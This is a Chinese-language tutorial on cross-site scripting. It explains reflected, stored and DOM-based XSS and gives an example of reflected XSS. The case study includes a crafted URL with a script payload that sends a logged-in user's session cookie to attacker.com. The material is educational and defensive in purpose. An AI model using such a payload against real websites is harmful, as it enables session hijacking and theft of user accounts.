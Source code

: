 # xss
举个栗子：  
get_param_from_url是一个从地址栏获取参数的函数
```html
<div>
  ${get_param_from_url(message)}
</div>
```
之后我们访问：`http://xxxx.com?message=hello`
此时页面会显示
```html
<div>
  hello
</div>
```

但如果我们这样访问`http://xxxx.com?message=<script>alert('hello')</script>`

如果页面没做任何处理，则会导致页面alert一个文本hello
```html
<div>
  <script>alert('hello')</script>
</div>
```

当然，以上javascript代码中只有alert一段代码，实际上它可以是任何js代码。  

这便是一段最简单的xss攻击，即反射型xss攻击。xss攻击还有其他种类，我们接下来逐个来分析。

xss（cross-site scripting跨域脚本攻击），一般分为两类：
* Reflected XSS（反射型的 XSS 攻击）
* Stored XSS（存储型的 XSS 攻击）
* DOM Based XSS

## 反射型xss攻击
这种类型的xss攻击是简单地把用户输入的数据“反射”给浏览器。此时黑客需要诱使用户“点击”一个恶意链接，才能成功。

案例一：
1. 用户登录某网站（www.myWeb.com），产生认证token，存储在cookie中，如`set cookie: sessId=183dsjfk3498djncrueiw`。
1. 存在某页面`www.myWeb.com/somePage`，它会获取地址栏中的message参数
1. 黑客通过一些途径让用户提交如下url，`www.myWeb.com/somePage?message=<script>var+i=new+Image;i.src="http://attacker.com/"%2bdocument.cookie</script>`
1. somePage页面通过提取message执行了里面的script代码，也想攻击者的网站attacker.com发起请求，并将cookie带了过去
1. 攻击者拿到了cookie，可以伪造用户发起恶意请求了。

整个过程如图所示  